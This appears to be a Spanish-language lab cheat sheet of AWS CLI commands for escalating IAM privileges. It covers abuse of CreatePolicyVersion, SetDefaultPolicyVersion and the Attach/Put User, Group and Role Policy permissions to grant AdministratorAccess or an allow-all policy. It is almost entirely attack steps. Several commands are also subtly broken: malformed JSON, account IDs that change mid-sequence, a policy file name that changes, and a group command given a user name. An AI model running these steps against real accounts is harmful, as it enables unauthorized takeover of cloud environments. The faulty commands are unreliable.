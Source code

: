 # Permisos sobre Politicas
## iam:CreatePolicyVersion	
aws iam list-attached-user-policies --user-name privesc1-CreateNewPolicyVersion-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc1-CreateNewPolicyVersion --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc1-CreateNewPolicyVersion-role --role-session-name privesc1  
aws sts get-caller-identity --profile privesc1  
Crear el archivo admin_policy.json con el contenido  

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PermitirTodo",
      "Effect": ""Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

aws iam create-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc1-CreateNewPolicyVersion --policy-document file://admin_policy.json --set-as-default --profile privesc1  
	
## iam:SetDefaultPolicyVersion  
aws iam list-attached-user-policies --user-name privesc2-SetExistingDefaultPolicyVersion-user  
aws iam create-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc2-SetExistingDefaultPolicyVersion --policy-document file://admin_policy.json  
aws iam get-policy --policy-arn arn:aws:iam::583318501385:policy/privesc2-SetExistingDefaultPolicyVersion  
aws iam set-default-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc2-SetExistingDefaultPolicyVersion --version-id v2 --profile privesc2  
	
## iam:AttachUserPolicy  
aws iam list-attached-user-policies --user-name privesc7-AttachUserPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc7-AttachUserPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc7-AttachUserPolicy-role --role-session-name privesc7  
aws iam attach-user-policy --user-name privesc7-AttachUserPolicy-user --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc7  
	
## iam:AttachGroupPolicy  
aws iam list-attached-user-policies --user-name privesc8-AttachGroupPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc8-AttachGroupPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc8-AttachGroupPolicy-role --role-session-name privesc8  
aws iam attach-group-policy --group-name privesc8-AttachGroupPolicy-group --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc8  
	
## iam:AttachRolePolicy  
aws iam list-attached-user-policies --user-name privesc9-AttachRolePolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc9-AttachRolePolicy --version-id v1  
aws iam create-access-key --user-name privesc9-AttachRolePolicy-user  
aws iam attach-role-policy --role-name privesc9-AttachRolePolicy-role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc9  
	
## iam:PutUserPolicy  
aws iam list-attached-user-policies --user-name privesc10-PutUserPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc10-PutUserPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc10-PutUserPolicy-role --role-session-name privesc10  
aws iam put-user-policy --user-name privesc10-PutUserPolicy-user --policy-name politica --policy-document file://admin_policy.json --profile privesc10  
aws iam list-user-policies --user-name privesc10-PutUserPolicy-user  
	
## iam:PutGroupPolicy  
aws iam list-attached-user-policies --user-name privesc11-PutGroupPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc11-PutGroupPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc11-PutGroupPolicy-role --role-session-name privesc11  
aws sts get-caller-identity --profile privesc11  
aws iam put-group-policy --group-name privesc11-PutGroupPolicy-group --policy-name politica-PrivEsc2-Spartan --policy-document file://admin_politica.json --profile privesc11  
aws iam list-group-policies --group-name privesc11-PutGroupPolicy-user  
	
## iam:PutRolePolicy  
aws iam list-attached-user-policies --user-name privesc12-PutRolePolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc12-PutRolePolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc12-PutRolePolicy-role --role-session-name privesc12  
aws sts get-caller-identity --profile privesc12  
aws iam put-role-policy --role-name privesc12-PutRolePolicy-role --policy-name politica-PrivEsc3 --policy-document file://admin_politica.json --profile privesc12  
aws iam list-role-policies --role-name privesc12-PutRolePolicy-role  

